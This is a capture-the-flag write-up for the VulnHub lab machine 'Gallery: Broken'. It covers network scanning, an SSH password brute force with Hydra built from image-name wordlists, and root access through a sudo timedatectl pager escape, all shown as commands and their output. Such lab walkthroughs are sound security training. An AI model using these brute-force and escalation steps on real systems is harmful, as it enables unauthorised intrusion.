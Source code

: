 # Gallery: Broken

## 1.Get VM IP

```bash
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.251 00:0c:29:05:05:03       VMware, Inc.
192.168.127.254 00:50:56:f1:df:13       VMware, Inc.
```

The ip address is `192.168.127.251`, let's enumerate it


## 2.Enumeration

```bash
root@kali: nmap -p22,80 -sC -sV -v -oN nmap.out 192.168.127.251

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:5e:bf:8a:49:a3:13:fa:0d:34:b8:db:26:57:79:a7 (RSA)
|   256 20:d7:72:be:30:6a:27:14:e1:e6:c2:16:7a:40:c8:52 (ECDSA)
|_  256 84:a0:9a:59:61:2a:b7:1e:dd:6e:da:3b:91:f9:a0:c6 (ED25519)
80/tcp open  http    Apache httpd 2.4.18
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 55K   2019-08-09 01:20  README.md
| 1.1K  2019-08-09 01:21  gallery.html
| 259K  2019-08-09 01:11  img_5terre.jpg
| 114K  2019-08-09 01:11  img_forest.jpg
| 663K  2019-08-09 01:11  img_lights.jpg
| 8.4K  2019-08-09 01:11  img_mountains.jpg
|_
|_http-title: Index of /
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:05:05:03 (VMware)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 80 there is nothing but afew image and a readme file which has HEX info in it, so i turned it to ASCII :

```bash
root@kali: cat README.md | xxd -r -p | head

����JFIF��Compressed by jpeg-recompress���
...
```

as it showd it is compressed by jpeg recompress so just change the extension to jpeg:

```bash
root@kali: cat README.md | xxd -r -p > image.jpeg
```

now open it in browser or image viewer :


![image](https://github.com/Git-K3rnel/VulnHub/assets/127470407/5fa1cb46-8150-4082-affb-a51799429005)


there is nothing useful in this picutre, so i tried to enumerate the web directory with different methods :

- Enumerating files
- Enumerating directories
- Bruteforcing with user bob, lead to nothing again
- Checking all images metadata

## 3.Gaining Shell

i just got frustrated with this CTF, but for the last try i just used image names as user and password and tried to brute force the ssh :

```text
root@kali: cat user.txt
broken
5terre
forest
lights
mountains
gallery

root@kali: cat pass.txt
broken
5terre
forest
lights
mountains
gallery
```

```bash
root@kali: hydra -L user.txt  -P pass.txt -v 192.168.127.251 ssh -t 5

INFO] Testing if password authentication is supported by ssh://broken@192.168.127.251:22
[INFO] Successful, password authentication is supported by ssh://192.168.127.251:22
[22][ssh] host: 192.168.127.251   login: broken   password: broken
```

now we can ssh to target :

```bash
root@kali: ssh broken@192.168.127.251

Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-21-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

762 packages can be updated.
458 updates are security updates.

Last login: Sat Jan 27 02:51:54 2024 from 192.168.127.128

broken@ubuntu:~$ id
uid=1000(broken) gid=1000(broken) groups=1000(broken),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

## 4.Privilege Escalation

We can check for sudo permissions on this machine :

```bash
broken@ubuntu:~$ sudo -l
Matching Defaults entries for broken on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User broken may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/timedatectl
    (ALL) NOPASSWD: /sbin/reboot
```

we can use `timedatectl` to escalate our privileges :

```bash
broken@ubuntu:~$ sudo /usr/bin/timedatectl list-timezones
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

this is how you can get root on this machine :)






